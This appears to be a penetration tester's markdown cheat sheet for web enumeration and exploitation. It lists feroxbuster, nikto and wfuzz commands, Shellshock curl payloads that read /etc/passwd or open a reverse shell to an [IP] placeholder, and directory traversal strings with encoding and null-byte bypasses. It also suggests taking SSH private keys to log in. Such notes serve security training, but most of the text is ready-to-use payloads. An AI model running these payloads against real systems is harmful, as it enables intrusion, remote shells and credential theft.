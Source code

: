 #### feroxbuster 
-`feroxbuster -u $URL`
- `feroxbuster -u $URL -w $wordlist`
- `feroxbuster -u $URL -t $numberOfThreads`
- `feroxbuster -u $URL --timeout $timeoutInSeconds`
- `feroxbuster -u $URL --filter-status 404,403,400 --thorough -r`
- `feroxbuster -u $URL:$alternatePort

#### Nikto
- `nikto -h http://foo.com -port 8000`

#### Subdomains with wfuzz
`wfuzz -c -f sub-fighter -w $wordlist -u 'domain.com' -H "Host: FUZZ.domain.com"
- sub-fighter is for subdomains -h 'http'
- For example `/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt`
- `--hw 290`: to remove results with a size of 290
- need to edit /etc/hosts with the subdomain

### General Notes
- Check for robots.txt and sitemap.xml!
- Check for admin consoles for respective apps (MySQL, Tomcat, phpmyadmin, etc)
- Check source
	- Usernames, passwords, IPs of other machines?
	- Any fields to input data for SQLi or XSS 
	- If you find cgi-bin and are forbidden to access it, you can still brute force the cgi names to test for shellshock vuln
		- `gobuster dir -u http://$IP/ -e -s "200,204,403,500" -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt`
		- `curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://[IP]/cgi-bin/user.sh`
		- `curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/[IP]/53 0>&1' http://$IP/cgi-bin/user.sh`
- Take note of framework and OS the webserver is using.  Might help you know what tools are installed on the system.
- Useful nmap scripts:
	- `http-shellshock --script-args uri=[PATHTOCGI]`
- php://filter and php://data wrappers are gonna be big!

### Directory Traversal
On Linux, we can use the `/etc/passwd` file to test directory traversal vulnerabilities. On Windows, we can use the file `C:\Windows\System32\drivers\etc\hosts` to test directory traversal vulnerabilities, which is readable by all local users. In Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of /etc/passwd. Check for private keys in their home directory, and use them to access the system via SSH.
- May need to access these files, `/etc/passwd` through Burp
- Try absolute path, like `/etc/passwd` as well as with traversal sequences like `../../`
- Consider that the `../` maybe be stripped: 
  `/image?filename=....//....//....//etc/passwd` (for if application strips path traversal sequences from the user-supplied filename before using it)
- Encoding:
	  - Without:`../../../etc/passwd`
	  - URL Encoded: `%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd`
	  - Double URL encoded: `%252e%252e%252f%252e%252e%252f%252e%252e/etc/passwd`
- If the start of the path is validated for user supplied input: 
	- `image?filename=/var/www/images/../../../../etc/passwd`
- If the application requires the filename to end with an expected file extension:
	- `/image?filename=../../../etc/passwd%00.jpg`
	- The `%00` is a null byte which effectively terminates the file path before the extension. 
